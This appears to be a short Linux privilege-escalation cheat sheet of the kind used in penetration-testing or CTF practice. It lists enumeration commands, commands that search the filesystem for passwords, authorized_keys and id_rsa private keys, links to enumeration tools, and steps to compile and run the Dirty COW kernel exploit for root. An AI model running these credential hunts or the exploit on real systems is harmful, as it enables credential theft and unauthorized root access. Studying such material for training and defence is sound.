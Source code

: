 ## Network Enumeration

```shell
ip a s

ip route

ip neigh
#arp tables

netstat -ano
#check open ports
```

## Password Hunting

```shell
grep --color=auto -rnw '/' -ie "PASSWORD=" --color=always 2>/dev/null
#we can search for any string
#it takes time so choose string carefully

locate password | more
#check for filenames with the term 'password'

find / -name authorized_keys 2>/dev/null
#looking for SSH keys
find / -name id_rsa 2>/dev/null
```

## Automated Enumeration Tools

* [LinPeas](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS)

* [LinEnum](https://github.com/rebootuser/LinEnum)

* [Linux exploit suggester](https://github.com/mzet-/linux-exploit-suggester)

* [Linux priv checker](https://github.com/sleventyeleven/linuxprivchecker)

```shell
./linpeas.sh
#complete basic enum

./linux-exploit-suggester.sh
#shows CVEs
```

## Kernel Exploits
```shell
# import the script from : https://github.com/firefart/dirtycow/blob/master/dirty.c
# Compile it
gcc -pthread c0w.c -o cow
gcc -pthread <FILE_NAME> -o <FILE_NAME>
./cow
passwd
id
# uid=0(root) gid=1000(user) groups=0(root),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),1000(user)
```
